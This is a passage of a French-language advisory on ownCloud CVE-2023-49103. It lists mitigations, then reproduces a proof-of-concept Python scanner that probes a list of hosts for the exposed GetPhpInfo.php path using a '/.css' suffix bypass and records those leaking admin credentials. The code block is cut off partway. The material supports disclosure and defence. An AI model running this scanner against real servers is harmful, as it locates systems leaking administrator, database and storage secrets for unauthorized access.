 ### Les protections

Comment se protéger de cette vulnérabilité ? Il existe plusieurs méthodes : 

1. Supprimer le fichier `owncloud/apps/graphapi/vendor/microsoft/microsoft-graph/tests/GetPhpInfo.php`.
2. Désactiver la fonction `phpinfo` si possible.
3. Modifier les secrets suivants
   - Mot de passe administrateur ownCloud
   - Identifiants du serveur de messagerie
   - Identifiants de la base de données
   - Clé d'accès au magasin d'objets/S3

### PoC

Un PoC est disponible pour détecter la présence du fichier GetPhpInfo.php : https://github.com/creacitysec/CVE-2023-49103/blob/main/exploit.py

```py
import requests
import urllib3
from concurrent.futures import ThreadPoolExecutor
from colorama import Fore, Style
import argparse
import queue
from alive_progress import alive_bar

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def check_phpinfo(url):
    try:
        response = requests.get(url, verify=False)  # Bypass SSL verification
        if response.status_code == 200 and 'OWNCLOUD_ADMIN_' in response.text:
            return True
    except requests.RequestException:
        pass
    return False

def process_urls(url_queue, output_file, update_bar):
    with open(output_file, 'a') as out:
        while True:
            url = url_queue.get()
            if url is None:
                url_queue.task_done()
                break  # Sentinel value to indicate completion
            try:
                if check_phpinfo(url):
                    print(Fore.GREEN + "Valid: " + url + Style.RESET_ALL)
                    out.write(url + '\n')
                else:
                    print(Fore.RED + "Invalid: " + url + Style.RESET_ALL)
            except Exception as e:
                print(Fore.YELLOW + f"Error processing {url}: {e}" + Style.RESET_ALL)
            finally:
                url_queue.task_done()
                update_bar()  # Update the progress bar

def process_file(file_path, output_file):
    urls = []
    with open(file_path, 'r') as file:
        for line in file:
            base_url = line.strip()
            # Append both URL variants for each base URL
            urls.append(base_url + "/owncloud/apps/graphapi/vendor/microsoft/microsoft-graph/tests/GetPhpInfo.php/.css")
```